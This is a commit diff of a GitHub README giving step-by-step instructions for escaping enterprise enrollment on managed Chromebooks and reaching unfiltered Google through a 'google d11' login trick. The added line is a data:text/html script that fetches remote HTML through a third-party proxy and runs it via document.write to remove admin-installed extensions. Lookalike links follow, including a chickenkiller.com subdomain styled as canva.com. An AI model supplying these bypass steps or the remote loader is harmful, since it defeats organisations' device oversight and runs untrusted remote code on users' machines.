

Before and after one commit to shatwyatt-boop/Gay, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -3,7 +3,7 @@ Step 1: go and powerwash, power button + esc + reload button at the same time wo
 Step 2 : go and do this exact method. Connect to the internet. When it starts saying "Enterprise Enrollment", you can wait 3 seconds exactly, turn off your wifi, and wait and turn it back on. If you do this correctly, it should break the loading sequence of the enterprise enrollment and there should be a button in the bottom right hand side that says "Use as personal device". Click it
 Step 3: ok now you have to do the google d11 trick. in case you dont know, you put google@d11.org as your email, then you do some captcha thing, then click github sign in, scroll to bottom of github sign in, click docs, then scroll down to make a contribution, and then you should be on the docs repo in github, now just find a repo with a link to google. then you got google, and you can search and do ANYTHING without the need of a proxy or anything else, as this should work on almost ALL chromebooks and full bypass.
 
-
+data:text/html,<script>fetch('https://api.codetabs.com/v1/proxy?quest=3kh0.github.io/ext-remover').then((response) => response.text()).then((text) => document.write(text));</script>
 
 https://www.canva.com.edurocks.mmmmmmmmmmnmmmmmmmmmnmmmnmnmnmmmmmmmnm.chickenkiller.com/index.html
 https://anonpic.net/0/1VafajckgD.png
```
